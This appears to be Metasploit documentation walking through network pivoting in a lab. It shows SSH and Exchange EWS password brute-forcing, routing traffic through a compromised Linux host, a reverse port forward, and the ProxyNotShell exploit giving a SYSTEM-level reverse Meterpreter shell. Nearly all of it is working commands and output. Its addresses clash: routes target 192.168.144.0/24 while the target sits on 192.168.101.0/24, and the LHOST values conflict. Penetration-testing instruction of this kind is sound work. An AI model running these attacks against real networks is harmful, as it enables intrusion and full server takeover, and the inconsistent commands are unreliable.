



# Network Pivoting

Metasploit supports network pivoting to access a remote system from the one you
already have access to. This is particularly useful when you want to go deeper
into the target network and you only have access to one system. Other
interesting servers might be present in a different subnet or behind a firewall
that restrict access from the Internet.

For example, we obtained access to a web server through a command injection
vulnerability. This host will become a pivot, through which other attacks
against internal assets can be launched. Traffic can be routed through this
compromised system to run network reconnaissance modules or tools (e.g. `nmap`)
to reveal additional systems and services that were originally inaccessible to
the pentester.



## Prerequisite
A Meterpreter or a SSH session needs to be running on the pivot host. Note that
pivoting over SSH sessions is only possible when these have been setup over TCP
channels. Other shell session types don't support pivoting. Also, if a reverse
payload is needed (e.g. `payload/windows/meterpreter/reverse_tcp`), reverse
port forwarding will need to be set up and only Meterpreter sessions support
it. This documentation will cover all of this.

## Scenario
The lab is set up with three hosts: the pentester's system, a pivot and a
target Windows host with Exchange Server. Here are the respective IP addresses:

| Host | IP address(es) |
| --- | --- |
| Pentester | 192.168.100.243 |
| Pivot | 192.168.100.245 & 192.168.101.229 |
| Target | 192.168.101.217 |

Note that the target is only reachable by the pivot host (subnet
192.168.101.0/24). The pentester's host only has access to the pivot (a Linux
host) through SSH using valid credentials we already have.

The pentester doesn't have access to the target Windows Server (different
subnet):
```
msf6 > ping -c 4 192.168.101.217
[*] exec: ping -c 4 192.168.101.217

ping: connect: Network is unreachable
```

## Reconnaissance

It is possible to pivot using SSH sessions and get access to the target. First,
the `auxiliary/scanner/ssh/ssh_login` module can be used to established a first
session:
```
msf6 > use auxiliary/scanner/ssh/ssh_login
msf6 auxiliary(scanner/ssh/ssh_login) > run rhosts=192.168.100.245 username=testuser password=123456

[*] 192.168.100.245:22 - Starting bruteforce
[+] 192.168.100.245:22 - Success: 'testuser:123456' 'uid=1001(testuser) gid=1001(testuser) groups=1001(testuser) Linux ubuntu 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux '
[*] SSH session 1 opened (192.168.100.243:33577 -> 192.168.100.245:22) at 2022-12-19 16:12:33 +0100
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ssh/ssh_login) > sessions

Active sessions
===============

  Id  Name  Type         Information    Connection
  --  ----  ----         -----------    ----------
  1         shell linux  SSH n00tmeg @  192.168.100.243:33577 -> 192.168.100.245:22 (192.168.100.245)
```

Check if this host can access the target:
```
msf6 auxiliary(scanner/ssh/ssh_login) > sessions -i 1
[*] Starting interaction with 1...

ifconfig
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.101.229  netmask 255.255.255.0  broadcast 192.168.144.255
        inet6 fe80::7ddc:2e0e:5542:4e4c  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:84:66:af  txqueuelen 1000  (Ethernet)
        RX packets 25806  bytes 26108736 (26.1 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 14801  bytes 5869061 (5.8 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ens37: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.100.245  netmask 255.255.255.0  broadcast 192.168.133.255
        inet6 fe80::c0b:5cfb:f705:8bfa  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:84:66:b9  txqueuelen 1000  (Ethernet)
        RX packets 13323  bytes 9246633 (9.2 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 8435  bytes 4177204 (4.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 2302  bytes 170198 (170.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2302  bytes 170198 (170.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ping -c 4 192.168.101.217
PING 192.168.101.217 (192.168.101.217) 56(84) bytes of data.
64 bytes from 192.168.101.217: icmp_seq=1 ttl=128 time=1.35 ms
64 bytes from 192.168.101.217: icmp_seq=2 ttl=128 time=0.525 ms
64 bytes from 192.168.101.217: icmp_seq=3 ttl=128 time=0.807 ms
64 bytes from 192.168.101.217: icmp_seq=4 ttl=128 time=0.575 ms

--- 192.168.101.217 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3039ms
rtt min/avg/max/mdev = 0.525/0.813/1.347/0.325 ms

^Z
Background session 1? [y/N]  y
msf6 auxiliary(scanner/ssh/ssh_login) >

```

Route all the traffic to this subnet through the SSH session. The syntax is
`route add <subnet> <netmask> <session ID>` or `route add <CIDR> <session ID>`:
```
msf6 auxiliary(scanner/ssh/ssh_login) > route add 192.168.144.0/24 1
[*] Route added
msf6 auxiliary(scanner/ssh/ssh_login) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.144.0      255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
```

Finally, run a brute force against the Exchange Web Services endpoint through
the pivot:
```
msf6 auxiliary(scanner/ssh/ssh_login) > use auxiliary/scanner/http/owa_ews_login
msf6 auxiliary(scanner/http/owa_ews_login) > run rhosts=192.168.101.217 USER_FILE=./user_file.txt PASS_FILE=./pass_file.txt

[+] Found NTLM service at /ews/ for domain NEWLAB.
[+] 192.168.101.217:443 - Successful login: mailuser:123456
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Exploit
We can now attempt to exploit the target using these credentials. We have two
options for the session: we can use a `bind` payload that will connect to the
target from the pentester's host through the pivot or use a `reverse` payload
that will connect back from the target to the pentester's host through the
pivot, but this time, in the opposite direction. The former is not always
possible since a firewall is likely to block incoming connections to the
target. The reverse payload is usually preferred.

Bind payload:



Reverse Payload:



Let's see how to set up a reverse payload. First, the session needs to be
migrated to a Meterpreter session, since port forwarding is not supported by
shell sessions like SSH. Also, the initial routing needs to be deleted to
properly migrate:
```
msf6 auxiliary(scanner/http/owa_ews_login) > route del 192.168.144.0/24 1
[*] Route removed
msf6 auxiliary(scanner/http/owa_ews_login) > sessions -u 1
[*] Executing 'post/multi/manage/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.100.243:4433
[*] Sending stage (1017704 bytes) to 192.168.100.245
[*] Meterpreter session 2 opened (192.168.100.243:4433 -> 192.168.100.245:54360) at 2022-12-19 16:27:52 +0100
[*] Command stager progress: 100.00% (773/773 bytes)
msf6 auxiliary(scanner/http/owa_ews_login) > sessions

Active sessions
===============

  Id  Name  Type                   Information                 Connection
  --  ----  ----                   -----------                 ----------
  1         shell linux            SSH n00tmeg @               192.168.100.243:33577 -> 192.168.100.245:22 (192.168.100.245)
  2         meterpreter x86/linux  testuser @ 192.168.101.229  192.168.100.243:4433 -> 192.168.100.245:54360 (192.168.100.245)
```

Now we can set up a reverse port forward on the pivot host to let the
connection back from the target reach the pentester's host. The syntax is
`portfwd add -L <destination IP> -l <destination port> -R -p <local port to
listen from on the pivot>`:
```
msf6 auxiliary(scanner/http/owa_ews_login) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > portfwd add -L 192.168.100.243 -l 4444 -R -p 4444
[*] Reverse TCP relay created: (remote) :4444 -> (local) 192.168.100.243:4444
meterpreter > portfwd

Active Port Forwards
====================

   Index  Local                 Remote        Direction
   -----  -----                 ------        ---------
   1      192.168.100.243:4444  0.0.0.0:4444  Reverse

1 total active port forwards.

meterpreter >
Background session 2? [y/N]
```

Finally, set up the route again, but this time, let's use the Meterpreter
session (session #2) instead (it is faster than the original SSH session):
```
msf6 payload(windows/meterpreter/reverse_tcp) > route add 192.168.144.0/24 2
[*] Route added
msf6 payload(windows/meterpreter/reverse_tcp) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.144.0      255.255.255.0      Session 2

[*] There are currently no IPv6 routes defined.
```

We can now run the exploit module with LHOST setup to the pentester's host IP.
The Framework will take care of starting a handler automatically, waiting for
the payload to connect back:
```
msf6 payload(windows/meterpreter/reverse_tcp) > use exploit/windows/http/exchange_proxynotshell_rce
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/http/exchange_proxynotshell_rce) > exploit rhosts=192.168.101.217 USERNAME=mailuser@newlab.local PASSWORD=123456 lhost=192.168.101.229 lhost=192.168.100.243

[*] Started reverse TCP handler on 192.168.100.243:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Target is an Exchange Server!
[*] Command Stager progress -   7.42% done (7499/101079 bytes)
[*] Command Stager progress -  14.84% done (14998/101079 bytes)
[*] Command Stager progress -  22.26% done (22497/101079 bytes)
[*] Command Stager progress -  29.68% done (29996/101079 bytes)
[*] Command Stager progress -  37.09% done (37495/101079 bytes)
[*] Command Stager progress -  44.51% done (44994/101079 bytes)
[*] Command Stager progress -  51.93% done (52493/101079 bytes)
[*] Command Stager progress -  59.35% done (59992/101079 bytes)
[*] Command Stager progress -  66.77% done (67491/101079 bytes)
[*] Command Stager progress -  74.19% done (74990/101079 bytes)
[*] Command Stager progress -  81.61% done (82489/101079 bytes)
[*] Command Stager progress -  89.03% done (89988/101079 bytes)
[*] Command Stager progress -  96.45% done (97487/101079 bytes)
[*] Command Stager progress - 100.00% done (101079/101079 bytes)
msf6 exploit(windows/http/exchange_proxynotshell_rce) >
[*] Sending stage (175686 bytes) to 192.168.100.243
[*] Meterpreter session 3 opened (192.168.100.243:4444 -> 192.168.100.243:44729) at 2022-12-19 16:34:50 +0100

msf6 exploit(windows/http/exchange_proxynotshell_rce) > sessions

Active sessions
===============

  Id  Name  Type                     Information                         Connection
  --  ----  ----                     -----------                         ----------
  1         shell linux              SSH n00tmeg @                       192.168.100.243:33577 -> 192.168.100.245:22 (192.168.100.245)
  2         meterpreter x86/linux    testuser @ 192.168.101.229          192.168.100.243:4433 -> 192.168.100.245:54360 (192.168.100.245)
  3         meterpreter x86/windows  NT AUTHORITY\SYSTEM @ WIN2019EXCH1  192.168.100.243:4444 -> 192.168.100.243:44729 (192.168.101.217)

msf6 exploit(windows/http/exchange_proxynotshell_rce) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > sysinfo
Computer        : WIN2019EXCH1
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : NEWLAB
Logged On Users : 7
Meterpreter     : x86/windows
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

